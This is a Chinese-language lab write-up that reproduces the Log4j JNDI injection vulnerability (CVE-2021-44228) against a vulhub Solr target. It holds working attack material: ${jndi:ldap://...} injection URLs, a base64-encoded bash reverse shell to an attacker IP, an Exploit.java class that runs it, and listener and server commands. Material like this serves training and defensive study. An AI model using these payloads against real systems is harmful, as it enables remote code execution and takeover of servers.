

# Log4j 漏洞复现

> 对文章内容进行复现：https://blog.csdn.net/Bossfrank/article/details/130148819 | https://blog.csdn.net/hcja666/article/details/145502010 | 更详细的JNDL注入文章：https://blog.csdn.net/weixin_60521036/article/details/142322372
> 

## 前置

Log4j 是 apache 下的 java 应用的开源日志库，是一个 java 日志工具。

这里对 JNDI 作介绍，全称 Java命名和目录接口 - `Java Naming and Directory Interface` ，允许用于从指定远程服务器获取并加载对象。

JNDI 注入攻击时常使用 `LDAP` 和 `RMI` 两种服务。

例如：应用服务器（如 Tomcat）中已经配置了一个名为 `jdbc/TestDB` 的数据源。我们要通过 JNDI 查找名为 `java:comp/env/jdbc/TestDB` 的数据源，然后从数据源获取数据库连接并执行查询操作。

```bash
import javax.naming.Context;
import javax.naming.InitialContext;
import javax.sql.DataSource;
import java.sql.Connection;
import java.sql.ResultSet;
import java.sql.Statement;

public class JNDIExample {
    public static void main(String[] args) {
        try {
            // 获取初始上下文
            Context initialContext = new InitialContext();
            // 查找数据源
            DataSource dataSource = (DataSource) initialContext.lookup("java:comp/env/jdbc/TestDB");
            // 从数据源获取数据库连接
            try (Connection connection = dataSource.getConnection();
                 Statement statement = connection.createStatement();
                 ResultSet resultSet = statement.executeQuery("SELECT * FROM users")) {

                while (resultSet.next()) {
                    System.out.println(resultSet.getString("username"));
                }
            }
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```

JNDI 提供了一个统一的接口，Java 程序通过该接口向具体的目录服务（如 LDAP 服务器）发送查找请求，目录服务返回相应的资源对象。例如，Java 程序可以使用 JNDI 查找 LDAP 服务器中的用户信息。

## 漏洞原理

CVE-2021-44228 ，影响版本 `Log4j 2.0` - `2.14.1` ，JDK 版本小于  `8u191`、`7u201`、`6u211`

`Log4j2` 框架下的 lookup 查询服务提供了 `{}` 字段解析功能，传进去的值会被直接解析，例如：`${java:version}` 会被替换成对应 Java 版本。如果不对 lookup 的出栈进行限制，那么就可能查询指定任何服务。

`Log4j2` 支持 JNDI（Java Naming and Directory Interface）类型的 lookup，即可以使用 ${jndi:xxx} 这种形式的表达式。

当 `Log4j2` 在解析日志消息或者配置文件时遇到这样的表达式，就会尝试通过 JNDI 协议去查找对应的资源。

那么攻击者就可以利用 JNDL 进行注入，在 lookup 上构造 Payload ，调用 JNDL 服务向攻击者搭建的恶意 LDAP 服务站点请求恶意 class 对象，从而造成远程代码执行。



攻击场景：

1. Web应用程序：攻击者可以通过构造包含恶意 JNDI 引用的 HTTP 请求参数、请求头或 Cookie 等，当 Web 应用程序记录这些请求信息时触发漏洞，从而控制服务器。
    
    例如，攻击者可能会将恶意 JNDI 引用放入用户名、搜索关键词等输入字段中。
    
2. 消息队列系统：在使用 Log4j2 记录信息的消息队列中，攻击者可以向消息队列发送包含恶意的 JNDL 引用信息，但消息被消费并记录时，触发漏洞。
3. 物联网设备：许多物联网设备使用 Java 运行环境和 Log4j2 进行日志记录，攻击者可以利用该漏洞入侵设备，控制设备或者窃取敏感信息。

## 漏洞检测

这里使用 vulhub 的环境进行复现，靶机IP `192.168.111.170`，kali IP `192.168.111.162` ，LDAP `192.168.111.1`

进入到 `/vulhub/log4j/cve-2021-44228` 运行 `docker compose up -d`

访问 `192.168.111.170:8983`


### 手动

使用`DNSlog`平台测试回显

在`/solr/admin/cores?`有个参数可以传，这就是个注入点，构造 Payload

```bash
192.168.111.170:8983/solr/admin/cores?action=${jndi:ldap://${sys:java.version}.xrqzrn.dnslog.cn}
```

再回到`DNSlog`平台进行是否外带成功，显示成功，并回显了Java版本`1.8.0_202`


### 工具

使用`Log4j-scan` ，有点好笑，没扫描出来


## 漏洞复现

### 搭建恶意服务器

编写恶意文件`Exploit.java` 尝试反弹shell到`kali`

```bash
bash -i >& /dev/tcp/192.168.111.162/1234 0>&1
```

经过编码后

```bash
bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjExMS4xNjIvMTIzNCAwPiYx}|{base64,-d}|{bash,-i}
```

Exploit.java

```bash
import java.lang.Runtime;
import java.lang.Process;
public class Exploit {
     public Exploit(){
             try{
                 Runtime.getRuntime().exec("bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjExMS4xNjIvMTIzNCAwPiYx}|{base64,-d}|{bash,-i}");
                                }catch(Exception e){
                                            e.printStackTrace();
                                             }
                }
         public static void main(String[] argv){
                         Exploit e = new Exploit();
                            }
}
```

对其进行编译

```bash
/usr/local/jdk1.8.0_181/bin/javac Exploit.java
```


开启HTTP服务器，使其作为恶意服务器

```bash
 ⚡ root@kali  ~/Desktop/test/test/Log4j  python -m http.server 8081
Serving HTTP on 0.0.0.0 port 8081 (http://0.0.0.0:8081/) ...
```


### 搭建LDAP服务器

这里我是用Windows来搭建，我的`Kali`使用`marshalsec-0.0.3-SNAPSHOT-all.jar` 来启动LDAP服务器会出现内存不足的情况


### 漏洞利用

`kali`开启监听

```bash
 ⚡ root@kali  ~/Desktop/test/test/Log4j  nc -lvp 1234
listening on [any] 1234 ...
```

进行`JNDI`注入，使用上边发现的注入点

```bash
192.168.111.170:8983/solr/admin/cores?action=${jndi:ldap://192.168.111.1:8082/Exploit}
```

执行后可以看到咱的LDAP服务器被请求了


向恶意服务器请求了`Exploit.class`


并且成功弹回了 `shell`


总的下来流程就是：JNDL注入让服务器向我们的LDAP服务器发起请求`Exploit.class` 的位置 ，LDAP返回`Exploit` 的位置，服务器再向恶意服务器请求POC，向服务器返回`Exploit.class` 的内容，服务器执行

## Log4j 流量分析


请求中会带有`jndi:ldap://`或者`jndi:rmi://`

后续数据包回带有`payload` 等特殊的请求，也可以用来识别流量


日志会出现大量异常记录

## 修复